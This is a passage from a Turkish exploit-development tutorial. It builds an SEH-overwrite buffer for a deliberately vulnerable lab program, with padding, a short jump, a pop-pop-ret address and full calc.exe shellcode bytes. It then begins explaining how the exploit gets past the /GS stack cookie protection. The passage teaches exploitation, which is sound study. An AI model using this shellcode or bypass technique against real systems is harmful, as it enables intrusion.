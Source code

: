 Görüldüğü üzere program *535313C8* adresinde `pop pop ret` üçlüsünü buldu. Bu değerler kaynak koda bakarsanız eğer inline assembly ile eklenen değerler. Bu değerleri exploit yazmak için kullanıyoruz. O halde exploitmizin gövdesi şu şekilde olacak demektir:

    cokertkaarsim = "A" * 520
    cokertkaarsim += "\xeb\x06\x90\x90"					   #6 byte jump
    cokertkaarsim += struct.pack('<I', 0x535313c8)         #pop pop ret 
    cokertkaarsim += "\x90" * 24 
	cokertkaarsim += "\x31\xdb\x64\x8b\x7b\x30\x8b\x7f"    #calc.exe shellcode
	cokertkaarsim += "\x0c\x8b\x7f\x1c\x8b\x47\x08\x8b"
	cokertkaarsim += "\x77\x20\x8b\x3f\x80\x7e\x0c\x33"
	cokertkaarsim += "\x75\xf2\x89\xc7\x03\x78\x3c\x8b"
	cokertkaarsim += "\x57\x78\x01\xc2\x8b\x7a\x20\x01"
	cokertkaarsim += "\xc7\x89\xdd\x8b\x34\xaf\x01\xc6"
	cokertkaarsim += "\x45\x81\x3e\x43\x72\x65\x61\x75"
	cokertkaarsim += "\xf2\x81\x7e\x08\x6f\x63\x65\x73"
	cokertkaarsim += "\x75\xe9\x8b\x7a\x24\x01\xc7\x66"
	cokertkaarsim += "\x8b\x2c\x6f\x8b\x7a\x1c\x01\xc7"
	cokertkaarsim += "\x8b\x7c\xaf\xfc\x01\xc7\x89\xd9"
	cokertkaarsim += "\xb1\xff\x53\xe2\xfd\x68\x63\x61"
	cokertkaarsim += "\x6c\x63\x89\xe2\x52\x52\x53\x53"
	cokertkaarsim += "\x53\x53\x53\x53\x52\x53\xff\xd7"

Exploiti çalıştırdıktan sonra hesap makinesinin çalışacağını görebilirsiniz. Immunity debugger üzerinde pop pop ret adresinize breakpoint koyarsanız ve ardından kodu incelerseniz olanları daha detaylı görebilirsiz. Örneğin aşağıdaki şekilde `pop pop ret` üçlüsüne gelmiş durumdayız, iki `pop` instructionu ardından `ret` ile stackden bizim 06 byte jump kodumuzu EIP'e alarak shellcodedan devam edecek.

![](/files/gsbypassimmupopop.png)

### Stack Cookie Korumasının SEH ile Atlatılması
Pekala, şimdi exploiti de yazdık. Şimdi programı tekrar derliyoruz, fakat bu defa **/GS-** seçeneğini cl'den kaldırıyoruz. Bu sayede stack cookie koruması aktif olacak. Ardından az önce kullandığımız exploit'i tekrardan çalıştırıyoruz. Çalıştırdık mı ? Çalışmadı. Evet, bir şeyler değişti demek ki. Şimdi bunun üzerine konuşalım biraz da. Ardından bu exploiti **/GS** korumasını atlatacak şekilde düzenleyelim. Şimdi bu konuda söyleyeceklerim sizi biraz şaşırtabilir, zira bunca şey okudunuz fakat bu korumayı geçmek için aslında yapılması gereken şey çok basit. Yapmamız gereken tek şey exploiti yeniden yazmak. Değişen adresleri tekrar düzeltmek, bu kadar! Fakat, benim için asıl önemli olan bunun nasıl olduğunu size anlatabilmek. Yani bu yazı aslında çok kısa bir şekilde de bu olayı anlatabilirdi. İki exploit koyup karşılaştırın diyerek de bu açığı anlatabilirdim, fakat o zaman biraz ezberci sisteme uyuyoruz. Ben mantığını tam olarak anlatabilmeyi umuyorum.

Neyse, şimdi bu nasıl böyle oldu ? Aslında olan şey sahiden basit bir mantık üzerine kurulu. Öncelikle programın kaynak kodunu hatırlayalım:
